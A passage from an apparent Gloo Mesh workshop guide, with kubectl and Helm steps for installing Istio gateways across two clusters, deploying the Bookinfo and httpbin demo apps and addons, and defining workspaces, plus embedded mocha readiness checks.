    targetPort: 31339
  - name: tcp-istiod
    port: 15012
    protocol: TCP
    targetPort: 15012
  - name: tcp-webhook
    port: 15017
    protocol: TCP
    targetPort: 15017
  selector:
    app: istio-ingressgateway
    istio: eastwestgateway
    revision: 1-22
    topology.istio.io/network: cluster1
  type: LoadBalancer
EOF
kubectl --context ${CLUSTER2} create ns istio-gateways

kubectl apply --context ${CLUSTER2} -f - <<EOF
apiVersion: v1
kind: Service
metadata:
  labels:
    app: istio-ingressgateway
    istio: ingressgateway
  name: istio-ingressgateway
  namespace: istio-gateways
spec:
  ports:
  - name: http2
    port: 80
    protocol: TCP
    targetPort: 8080
  - name: https
    port: 443
    protocol: TCP
    targetPort: 8443
  selector:
    app: istio-ingressgateway
    istio: ingressgateway
    revision: 1-22
  type: LoadBalancer
EOF

kubectl apply --context ${CLUSTER2} -f - <<EOF
apiVersion: v1
kind: Service
metadata:
  labels:
    app: istio-ingressgateway
    istio: eastwestgateway
    topology.istio.io/network: cluster2
  name: istio-eastwestgateway
  namespace: istio-gateways
spec:
  ports:
  - name: status-port
    port: 15021
    protocol: TCP
    targetPort: 15021
  - name: tls
    port: 15443
    protocol: TCP
    targetPort: 15443
  - name: https
    port: 16443
    protocol: TCP
    targetPort: 16443
  - name: tls-spire
    port: 8081
    protocol: TCP
    targetPort: 8081
  - name: tls-otel
    port: 4317
    protocol: TCP
    targetPort: 4317
  - name: grpc-cacert
    port: 31338
    protocol: TCP
    targetPort: 31338
  - name: grpc-ew-bootstrap
    port: 31339
    protocol: TCP
    targetPort: 31339
  - name: tcp-istiod
    port: 15012
    protocol: TCP
    targetPort: 15012
  - name: tcp-webhook
    port: 15017
    protocol: TCP
    targetPort: 15017
  selector:
    app: istio-ingressgateway
    istio: eastwestgateway
    revision: 1-22
    topology.istio.io/network: cluster2
  type: LoadBalancer
EOF
```

It allows us to have full control on which Istio revision we want to use.

Then, we can tell Gloo Mesh to deploy the Istio control planes and the gateways in the cluster(s).

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: IstioLifecycleManager
metadata:
  name: cluster1-installation
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster1
        defaultRevision: true
      revision: 1-22
      istioOperatorSpec:
        profile: minimal
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.22.3-solo
        namespace: istio-system
        values:
          global:
            meshID: mesh1
            multiCluster:
              clusterName: cluster1
            network: cluster1
          cni:
            excludeNamespaces:
            - istio-system
            - kube-system
            logLevel: info
        meshConfig:
          accessLogFile: /dev/stdout
          defaultConfig:
            proxyMetadata:
              ISTIO_META_DNS_CAPTURE: "true"
              ISTIO_META_DNS_AUTO_ALLOCATE: "true"
        components:
          pilot:
            k8s:
              env:
                - name: PILOT_ENABLE_K8S_SELECT_WORKLOAD_ENTRIES
                  value: "false"
                - name: PILOT_ENABLE_IP_AUTOALLOCATE
                  value: "true"
          cni:
            enabled: true
            namespace: kube-system
          ingressGateways:
          - name: istio-ingressgateway
            enabled: false
EOF

kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: GatewayLifecycleManager
metadata:
  name: cluster1-ingress
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster1
        activeGateway: false
      gatewayRevision: 1-22
      istioOperatorSpec:
        profile: empty
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.22.3-solo
        values:
          gateways:
            istio-ingressgateway:
              customService: true
        components:
          ingressGateways:
            - name: istio-ingressgateway
              namespace: istio-gateways
              enabled: true
              label:
                istio: ingressgateway
---
apiVersion: admin.gloo.solo.io/v2
kind: GatewayLifecycleManager
metadata:
  name: cluster1-eastwest
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster1
        activeGateway: false
      gatewayRevision: 1-22
      istioOperatorSpec:
        profile: empty
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.22.3-solo
        values:
          gateways:
            istio-ingressgateway:
              customService: true
        components:
          ingressGateways:
            - name: istio-eastwestgateway
              namespace: istio-gateways
              enabled: true
              label:
                istio: eastwestgateway
                topology.istio.io/network: cluster1
              k8s:
                env:
                  - name: ISTIO_META_ROUTER_MODE
                    value: "sni-dnat"
                  - name: ISTIO_META_REQUESTED_NETWORK_VIEW
                    value: cluster1
EOF

kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: IstioLifecycleManager
metadata:
  name: cluster2-installation
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster2
        defaultRevision: true
      revision: 1-22
      istioOperatorSpec:
        profile: minimal
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.22.3-solo
        namespace: istio-system
        values:
          global:
            meshID: mesh1
            multiCluster:
              clusterName: cluster2
            network: cluster2
          cni:
            excludeNamespaces:
            - istio-system
            - kube-system
            logLevel: info
        meshConfig:
          accessLogFile: /dev/stdout
          defaultConfig:
            proxyMetadata:
              ISTIO_META_DNS_CAPTURE: "true"
              ISTIO_META_DNS_AUTO_ALLOCATE: "true"
        components:
          pilot:
            k8s:
              env:
                - name: PILOT_ENABLE_K8S_SELECT_WORKLOAD_ENTRIES
                  value: "false"
                - name: PILOT_ENABLE_IP_AUTOALLOCATE
                  value: "true"
          cni:
            enabled: true
            namespace: kube-system
          ingressGateways:
          - name: istio-ingressgateway
            enabled: false
EOF

kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: GatewayLifecycleManager
metadata:
  name: cluster2-ingress
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster2
        activeGateway: false
      gatewayRevision: 1-22
      istioOperatorSpec:
        profile: empty
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.22.3-solo
        values:
          gateways:
            istio-ingressgateway:
              customService: true
        components:
          ingressGateways:
            - name: istio-ingressgateway
              namespace: istio-gateways
              enabled: true
              label:
                istio: ingressgateway
---
apiVersion: admin.gloo.solo.io/v2
kind: GatewayLifecycleManager
metadata:
  name: cluster2-eastwest
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster2
        activeGateway: false
      gatewayRevision: 1-22
      istioOperatorSpec:
        profile: empty
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.22.3-solo
        values:
          gateways:
            istio-ingressgateway:
              customService: true
        components:
          ingressGateways:
            - name: istio-eastwestgateway
              namespace: istio-gateways
              enabled: true
              label:
                istio: eastwestgateway
                topology.istio.io/network: cluster2
              k8s:
                env:
                  - name: ISTIO_META_ROUTER_MODE
                    value: "sni-dnat"
                  - name: ISTIO_META_REQUESTED_NETWORK_VIEW
                    value: cluster2
EOF
```

<!--bash
until kubectl --context ${MGMT} -n gloo-mesh wait --timeout=180s --for=jsonpath='{.status.clusters.cluster1.installations.*.state}'=HEALTHY istiolifecyclemanagers/cluster1-installation; do
  echo "Waiting for the Istio installation to complete"
  sleep 1
done
timeout 2m bash -c "until [[ \$(kubectl --context ${CLUSTER1} -n istio-system get deploy -o json | jq '[.items[].status.readyReplicas] | add') -ge 1 ]]; do
  sleep 1
done"
timeout 2m bash -c "until [[ \$(kubectl --context ${CLUSTER1} -n istio-gateways get deploy -o json | jq '[.items[].status.readyReplicas] | add') -eq 2 ]]; do
  sleep 1
done"
until kubectl --context ${MGMT} -n gloo-mesh wait --timeout=180s --for=jsonpath='{.status.clusters.cluster2.installations.*.state}'=HEALTHY istiolifecyclemanagers/cluster2-installation; do
  echo "Waiting for the Istio installation to complete"
  sleep 1
done
timeout 2m bash -c "until [[ \$(kubectl --context ${CLUSTER2} -n istio-system get deploy -o json | jq '[.items[].status.readyReplicas] | add') -ge 1 ]]; do
  sleep 1
done"
timeout 2m bash -c "until [[ \$(kubectl --context ${CLUSTER2} -n istio-gateways get deploy -o json | jq '[.items[].status.readyReplicas] | add') -eq 2 ]]; do
  sleep 1
done"
-->

<!--bash
cat <<'EOF' > ./test.js

const helpers = require('./tests/chai-exec');

const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
const chai = require("chai");
const expect = chai.expect;

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

describe("Checking Istio installation", function() {
  it('istiod pods are ready in cluster ' + process.env.CLUSTER1, () => helpers.checkDeploymentsWithLabels({ context: process.env.CLUSTER1, namespace: "istio-system", labels: "app=istiod", instances: 1 }));
  it('gateway pods are ready in cluster ' + process.env.CLUSTER1, () => helpers.checkDeploymentsWithLabels({ context: process.env.CLUSTER1, namespace: "istio-gateways", labels: "app=istio-ingressgateway", instances: 2 }));
  it('istiod pods are ready in cluster ' + process.env.CLUSTER2, () => helpers.checkDeploymentsWithLabels({ context: process.env.CLUSTER2, namespace: "istio-system", labels: "app=istiod", instances: 1 }));
  it('gateway pods are ready in cluster ' + process.env.CLUSTER2, () => helpers.checkDeploymentsWithLabels({ context: process.env.CLUSTER2, namespace: "istio-gateways", labels: "app=istio-ingressgateway", instances: 2 }));
  it("Gateways have an ip attached in cluster " + process.env.CLUSTER1, () => {
    let cli = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n istio-gateways get svc -l app=istio-ingressgateway -o jsonpath='{.items}'");
    cli.stderr.should.be.empty;
    let deployments = JSON.parse(cli.stdout.slice(1,-1));
    expect(deployments).to.have.lengthOf(2);
    deployments.forEach((deployment) => {
      expect(deployment.status.loadBalancer).to.have.property("ingress");
    });
  });
  it("Gateways have an ip attached in cluster " + process.env.CLUSTER2, () => {
    let cli = chaiExec("kubectl --context " + process.env.CLUSTER2 + " -n istio-gateways get svc -l app=istio-ingressgateway -o jsonpath='{.items}'");
    cli.stderr.should.be.empty;
    let deployments = JSON.parse(cli.stdout.slice(1,-1));
    expect(deployments).to.have.lengthOf(2);
    deployments.forEach((deployment) => {
      expect(deployment.status.loadBalancer).to.have.property("ingress");
    });
  });
});

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/istio-lifecycle-manager-install/tests/istio-ready.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->
<!--bash
timeout 2m bash -c "until [[ \$(kubectl --context ${CLUSTER1} -n istio-gateways get svc -l istio=ingressgateway -o json | jq '.items[0].status.loadBalancer | length') -gt 0 ]]; do
  sleep 1
done"
-->

```bash
export HOST_GW_CLUSTER1="$(kubectl --context ${CLUSTER1} -n istio-gateways get svc -l istio=ingressgateway -o jsonpath='{.items[0].status.loadBalancer.ingress[0].*}')"
export HOST_GW_CLUSTER2="$(kubectl --context ${CLUSTER2} -n istio-gateways get svc -l istio=ingressgateway -o jsonpath='{.items[0].status.loadBalancer.ingress[0].*}')"
```

<!--bash
cat <<'EOF' > ./test.js
const dns = require('dns');
const chaiHttp = require("chai-http");
const chai = require("chai");
const expect = chai.expect;
chai.use(chaiHttp);
const { waitOnFailedTest } = require('./tests/utils');

afterEach(function(done) { waitOnFailedTest(done, this.currentTest.currentRetry())});

describe("Address '" + process.env.HOST_GW_CLUSTER1 + "' can be resolved in DNS", () => {
    it(process.env.HOST_GW_CLUSTER1 + ' can be resolved', (done) => {
        return dns.lookup(process.env.HOST_GW_CLUSTER1, (err, address, family) => {
            expect(address).to.be.an.ip;
            done();
        });
    });
});
EOF
echo "executing test ./gloo-mesh-2-0/tests/can-resolve.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const dns = require('dns');
const chaiHttp = require("chai-http");
const chai = require("chai");
const expect = chai.expect;
chai.use(chaiHttp);
const { waitOnFailedTest } = require('./tests/utils');

afterEach(function(done) { waitOnFailedTest(done, this.currentTest.currentRetry())});

describe("Address '" + process.env.HOST_GW_CLUSTER2 + "' can be resolved in DNS", () => {
    it(process.env.HOST_GW_CLUSTER2 + ' can be resolved', (done) => {
        return dns.lookup(process.env.HOST_GW_CLUSTER2, (err, address, family) => {
            expect(address).to.be.an.ip;
            done();
        });
    });
});
EOF
echo "executing test ./gloo-mesh-2-0/tests/can-resolve.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->


## Lab 4 - Deploy the Bookinfo demo app <a name="lab-4---deploy-the-bookinfo-demo-app-"></a>
[](https://youtu.be/nzYcrjalY5A "Video Link")

We're going to deploy the bookinfo application to demonstrate several features of Gloo Mesh.

You can find more information about this application [here](https://istio.io/latest/docs/examples/bookinfo/).

Run the following commands to deploy the bookinfo application on `cluster1`:

```bash
kubectl --context ${CLUSTER1} create ns bookinfo-frontends
kubectl --context ${CLUSTER1} create ns bookinfo-backends
# Deploy the frontend bookinfo service in the bookinfo-frontends namespace
kubectl --context ${CLUSTER1} -n bookinfo-frontends apply -f data/steps/deploy-bookinfo/productpage-v1.yaml

# Deploy the backend bookinfo services in the bookinfo-backends namespace for all versions less than v3
kubectl --context ${CLUSTER1} -n bookinfo-backends apply \
  -f data/steps/deploy-bookinfo/details-v1.yaml \
  -f data/steps/deploy-bookinfo/ratings-v1.yaml \
  -f data/steps/deploy-bookinfo/reviews-v1-v2.yaml

# Update the reviews service to display where it is coming from
kubectl --context ${CLUSTER1} -n bookinfo-backends set env deploy/reviews-v1 CLUSTER_NAME=${CLUSTER1}
kubectl --context ${CLUSTER1} -n bookinfo-backends set env deploy/reviews-v2 CLUSTER_NAME=${CLUSTER1}
```

<!--bash
echo -n Waiting for bookinfo pods to be ready...
timeout -v 5m bash -c "
until [[ \$(kubectl --context ${CLUSTER1} -n bookinfo-frontends get deploy -o json | jq '[.items[].status.readyReplicas] | add') -eq 1 && \\
  \$(kubectl --context ${CLUSTER1} -n bookinfo-backends get deploy -o json | jq '[.items[].status.readyReplicas] | add') -eq 4 ]] 2>/dev/null
do
  sleep 1
  echo -n .
done"
echo
-->

You can check that the app is running using the following command:

```
kubectl --context ${CLUSTER1} -n bookinfo-frontends get pods && kubectl --context ${CLUSTER1} -n bookinfo-backends get pods
```

Note that we deployed the `productpage` service in the `bookinfo-frontends` namespace and the other services in the `bookinfo-backends` namespace.

And we deployed the `v1` and `v2` versions of the `reviews` microservice, not the `v3` version.

Now, run the following commands to deploy the bookinfo application on `cluster2`:

```bash
kubectl --context ${CLUSTER2} create ns bookinfo-frontends
kubectl --context ${CLUSTER2} create ns bookinfo-backends
# Deploy the frontend bookinfo service in the bookinfo-frontends namespace
kubectl --context ${CLUSTER2} -n bookinfo-frontends apply -f data/steps/deploy-bookinfo/productpage-v1.yaml
# Deploy the backend bookinfo services in the bookinfo-backends namespace for all versions
kubectl --context ${CLUSTER2} -n bookinfo-backends apply \
  -f data/steps/deploy-bookinfo/details-v1.yaml \
  -f data/steps/deploy-bookinfo/ratings-v1.yaml \
  -f data/steps/deploy-bookinfo/reviews-v1-v2.yaml \
  -f data/steps/deploy-bookinfo/reviews-v3.yaml
# Update the reviews service to display where it is coming from
kubectl --context ${CLUSTER2} -n bookinfo-backends set env deploy/reviews-v1 CLUSTER_NAME=${CLUSTER2}
kubectl --context ${CLUSTER2} -n bookinfo-backends set env deploy/reviews-v2 CLUSTER_NAME=${CLUSTER2}
kubectl --context ${CLUSTER2} -n bookinfo-backends set env deploy/reviews-v3 CLUSTER_NAME=${CLUSTER2}

```

<!--bash
echo -n Waiting for bookinfo pods to be ready...
timeout -v 5m bash -c "
until [[ \$(kubectl --context ${CLUSTER2} -n bookinfo-frontends get deploy -o json | jq '[.items[].status.readyReplicas] | add') -eq 1 && \\
  \$(kubectl --context ${CLUSTER2} -n bookinfo-backends get deploy -o json | jq '[.items[].status.readyReplicas] | add') -eq 5 ]] 2>/dev/null
do
  sleep 1
  echo -n .
done"
echo
-->

Confirm that `v1`, `v2` and `v3` of the `reviews` service are now running in the second cluster:

```bash
kubectl --context ${CLUSTER2} -n bookinfo-frontends get pods && kubectl --context ${CLUSTER2} -n bookinfo-backends get pods
```

As you can see, we deployed all three versions of the `reviews` microservice on this cluster.

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Bookinfo app", () => {
  let cluster = process.env.CLUSTER1
  let deployments = ["productpage-v1"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "bookinfo-frontends", k8sObj: deploy }));
  });
  deployments = ["ratings-v1", "details-v1", "reviews-v1", "reviews-v2"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "bookinfo-backends", k8sObj: deploy }));
  });
  cluster = process.env.CLUSTER2
  deployments = ["productpage-v1"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "bookinfo-frontends", k8sObj: deploy }));
  });
  deployments = ["ratings-v1", "details-v1", "reviews-v1", "reviews-v2", "reviews-v3"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "bookinfo-backends", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/bookinfo/deploy-bookinfo/tests/check-bookinfo.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->


## Lab 5 - Deploy the httpbin demo app <a name="lab-5---deploy-the-httpbin-demo-app-"></a>
[](https://youtu.be/w1xB-o_gHs0 "Video Link")

We're going to deploy the httpbin application to demonstrate several features of Gloo Mesh.

You can find more information about this application [here](http://httpbin.org/).

Run the following commands to deploy the httpbin app on `cluster1`. The deployment will be called `not-in-mesh` and won't have the sidecar injected, because of the annotation `sidecar.istio.io/inject: "false"`.

```bash
kubectl --context ${CLUSTER1} create ns httpbin
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: not-in-mesh
  namespace: httpbin
---
apiVersion: v1
kind: Service
metadata:
  name: not-in-mesh
  namespace: httpbin
  labels:
    app: not-in-mesh
    service: not-in-mesh
spec:
  ports:
  - name: http
    port: 8000
    targetPort: 80
  selector:
    app: not-in-mesh
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: not-in-mesh
  namespace: httpbin
spec:
  replicas: 1
  selector:
    matchLabels:
      app: not-in-mesh
      version: v1
  template:
    metadata:
      labels:
        app: not-in-mesh
        version: v1
    spec:
      serviceAccountName: not-in-mesh
      containers:
      - image: docker.io/kennethreitz/httpbin
        imagePullPolicy: IfNotPresent
        name: not-in-mesh
        ports:
        - name: http
          containerPort: 80
        livenessProbe:
          httpGet:
            path: /status/200
            port: http
        readinessProbe:
          httpGet:
            path: /status/200
            port: http

EOF
```

Then, we deploy a second version, which will be called `in-mesh` and will have the sidecar injected (because of the label `istio.io/rev` in the Pod template).

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: in-mesh
  namespace: httpbin
---
apiVersion: v1
kind: Service
metadata:
  name: in-mesh
  namespace: httpbin
  labels:
    app: in-mesh
    service: in-mesh
spec:
  ports:
  - name: http
    port: 8000
    targetPort: 80
  selector:
    app: in-mesh
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: in-mesh
  namespace: httpbin
spec:
  replicas: 1
  selector:
    matchLabels:
      app: in-mesh
      version: v1
  template:
    metadata:
      labels:
        app: in-mesh
        version: v1
        istio.io/rev: 1-22
    spec:
      serviceAccountName: in-mesh
      containers:
      - image: docker.io/kennethreitz/httpbin
        imagePullPolicy: IfNotPresent
        name: in-mesh
        ports:
        - name: http
          containerPort: 80
        livenessProbe:
          httpGet:
            path: /status/200
            port: http
        readinessProbe:
          httpGet:
            path: /status/200
            port: http

EOF
```


<!--bash
echo -n Waiting for httpbin pods to be ready...
timeout -v 5m bash -c "
until [[ \$(kubectl --context ${CLUSTER1} -n httpbin get deploy -o json | jq '[.items[].status.readyReplicas] | add') -eq 2 ]] 2>/dev/null
do
  sleep 1
  echo -n .
done"
echo
-->
```
You can follow the progress using the following command:

```bash
kubectl --context ${CLUSTER1} -n httpbin get pods
```

```,nocopy
NAME                           READY   STATUS    RESTARTS   AGE
in-mesh-5d9d9549b5-qrdgd       2/2     Running   0          11s
not-in-mesh-5c64bb49cd-m9kwm   1/1     Running   0          11s
```
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("httpbin app", () => {
  let cluster = process.env.CLUSTER1
  
  let deployments = ["not-in-mesh", "in-mesh"];
  
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "httpbin", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/httpbin/deploy-httpbin/tests/check-httpbin.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->


## Lab 6 - Deploy Gloo Mesh Addons <a name="lab-6---deploy-gloo-mesh-addons-"></a>
[](https://youtu.be/_rorug_2bk8 "Video Link")

To use the Gloo Mesh Gateway advanced features (external authentication, rate limiting, ...), you need to install the Gloo Mesh addons.

First, you need to create a namespace for the addons, with Istio injection enabled:

```bash
kubectl --context ${CLUSTER1} create namespace gloo-mesh-addons
kubectl --context ${CLUSTER1} label namespace gloo-mesh-addons istio.io/rev=1-22 --overwrite
kubectl --context ${CLUSTER2} create namespace gloo-mesh-addons
kubectl --context ${CLUSTER2} label namespace gloo-mesh-addons istio.io/rev=1-22 --overwrite
```

Then, you can deploy the addons on the cluster(s) using Helm:

```bash
helm upgrade --install gloo-platform gloo-platform \
  --repo https://storage.googleapis.com/gloo-platform/helm-charts \
  --namespace gloo-mesh-addons \
  --kube-context ${CLUSTER1} \
  --version 2.6.4 \
  -f -<<EOF
common:
  cluster: cluster1
glooAgent:
  enabled: false
extAuthService:
  enabled: true
  extAuth:
    apiKeyStorage:
      name: redis
      enabled: true
      config: 
        connection: 
          host: redis.gloo-mesh-addons:6379
      secretKey: ThisIsSecret
rateLimiter:
  enabled: true
EOF

helm upgrade --install gloo-platform gloo-platform \
  --repo https://storage.googleapis.com/gloo-platform/helm-charts \
  --namespace gloo-mesh-addons \
  --kube-context ${CLUSTER2} \
  --version 2.6.4 \
  -f -<<EOF
common:
  cluster: cluster2
glooAgent:
  enabled: false
extAuthService:
  enabled: true
  extAuth:
    apiKeyStorage:
      name: redis
      enabled: true
      config: 
        connection: 
          host: redis.gloo-mesh-addons:6379
      secretKey: ThisIsSecret
rateLimiter:
  enabled: true
EOF
```

For teams to setup external authentication, the gateways team needs to create and `ExtAuthServer` object they can reference.

Let's create the `ExtAuthServer` object:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: ExtAuthServer
metadata:
  name: ext-auth-server
  namespace: gloo-mesh-addons
spec:
  destinationServer:
    ref:
      cluster: cluster1
      name: ext-auth-service
      namespace: gloo-mesh-addons
    port:
      name: grpc
  requestBody: {} # Needed if some an extauth plugin must access the body of the requests
EOF
```

For teams to setup rate limiting, the gateways team needs to create and `RateLimitServerSettings` object they can reference.

Let's create the `RateLimitServerSettings` object:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerSettings
metadata:
  name: rate-limit-server
  namespace: gloo-mesh-addons
spec:
  destinationServer:
    ref:
      cluster: cluster1
      name: rate-limiter
      namespace: gloo-mesh-addons
    port:
      name: grpc
EOF
```
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Gloo Platform add-ons cluster1 deployment", () => {
  let cluster = process.env.CLUSTER1
  let deployments = ["ext-auth-service", "rate-limiter"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "gloo-mesh-addons", k8sObj: deploy }));
  });
});
describe("Gloo Platform add-ons cluster2 deployment", () => {
  let cluster = process.env.CLUSTER2
  let deployments = ["ext-auth-service", "rate-limiter"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "gloo-mesh-addons", k8sObj: deploy }));
  });
});

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/deploy-gloo-mesh-addons/tests/check-addons-deployments.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Gloo Platform add-ons cluster1 service", () => {
  let cluster = process.env.CLUSTER1
  let services = ["ext-auth-service", "rate-limiter"];
  services.forEach(service => {
    it(service + ' exists in ' + cluster, () => helpers.k8sObjectIsPresent({ context: cluster, namespace: "gloo-mesh-addons", k8sType: "service", k8sObj: service }));
  });
});
describe("Gloo Platform add-ons cluster2 service", () => {
  let cluster = process.env.CLUSTER2
  let services = ["ext-auth-service", "rate-limiter"];
  services.forEach(service => {
    it(service + ' exists in ' + cluster, () => helpers.k8sObjectIsPresent({ context: cluster, namespace: "gloo-mesh-addons", k8sType: "service", k8sObj: service }));
  });
});

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/deploy-gloo-mesh-addons/tests/check-addons-services.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->
This is what the environment looks like now:


## Lab 7 - Create the gateways workspace <a name="lab-7---create-the-gateways-workspace-"></a>
[](https://youtu.be/QeVBH0eswWw "Video Link")

We're going to create a workspace for the team in charge of the Gateways.

The platform team needs to create the corresponding `Workspace` Kubernetes objects in the Gloo Mesh management cluster.

Let's create the `gateways` workspace which corresponds to the `istio-gateways` and the `gloo-mesh-addons` namespaces on the cluster(s):

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: gateways
  namespace: gloo-mesh
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: istio-gateways
    - name: gloo-mesh-addons
  - name: cluster2
    namespaces:
    - name: istio-gateways
    - name: gloo-mesh-addons
EOF
```

Then, the Gateway team creates a `WorkspaceSettings` Kubernetes object in one of the namespaces of the `gateways` workspace (so the `istio-gateways` or the `gloo-mesh-addons` namespace):

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: gateways
  namespace: gloo-mesh-addons
spec:
  importFrom:
  - workspaces:
    - selector:
        allow_ingress: "true"
    resources:
    - kind: SERVICE
    - kind: ALL
      labels:
        expose: "true"
  exportTo:
  - workspaces:
    - selector:
        allow_ingress: "true"
    resources:
    - kind: SERVICE
EOF
```

The Gateway team has decided to import the following from the workspaces that have the label `allow_ingress` set to `true` (using a selector):
- all the Kubernetes services exported by these workspaces
- all the resources (RouteTables, VirtualDestination, ...) exported by these workspaces that have the label `expose` set to `true`


## Lab 8 - Create the bookinfo workspace <a name="lab-8---create-the-bookinfo-workspace-"></a>

We're going to create a workspace for the team in charge of the Bookinfo application.

The platform team needs to create the corresponding `Workspace` Kubernetes objects in the Gloo Mesh management cluster.

Let's create the `bookinfo` workspace which corresponds to the `bookinfo-frontends` and `bookinfo-backends` namespaces on the cluster(s):

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: bookinfo
  namespace: gloo-mesh
  labels:
    allow_ingress: "true"
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: bookinfo-frontends
    - name: bookinfo-backends
  - name: cluster2
    namespaces:
    - name: bookinfo-frontends
    - name: bookinfo-backends
EOF
```

Then, the Bookinfo team creates a `WorkspaceSettings` Kubernetes object in one of the namespaces of the `bookinfo` workspace (so the `bookinfo-frontends` or the `bookinfo-backends` namespace):

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: bookinfo
  namespace: bookinfo-frontends
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: productpage
    - kind: SERVICE
      labels:
        app: reviews
    - kind: SERVICE
      labels:
        app: ratings
    - kind: ALL
      labels:
        expose: "true"
EOF
```

The Bookinfo team has decided to export the following to the `gateway` workspace (using a reference):
- the `productpage` and the `reviews` Kubernetes services
